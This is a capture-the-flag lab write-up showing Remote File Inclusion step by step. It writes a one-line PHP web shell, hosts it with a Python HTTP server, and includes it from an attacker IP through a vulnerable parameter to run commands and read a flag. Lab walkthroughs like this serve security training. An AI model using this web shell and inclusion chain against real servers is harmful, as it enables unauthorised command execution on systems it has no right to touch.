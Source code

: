 # Remote File Inclusion (RFI)

#### Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

**Step 1** - Test for RFI:

* On the suspicious vulnerable URL, include a local URL:
  * `http://127.0.0.1/index.php`

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* We successfully loaded the index.php again

**Step 2** - Create a custom web shell:

* Shell script:
  * ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
* Host the shell:
  * ```bash
    sudo python3 -m http.server LISTENING_PORT
    ```

**Step 3** - Test the web shell and look for the flag:

* Insert the host URL with a command on the vulnerable parameter:
  * {% code overflow="wrap" %}
    ```bash
    http://SERVER_IP/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From the output above, our web shell is working perfectly
* Look for the flag wih `cat ../../../exercise/flag.txt`:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got another flag!
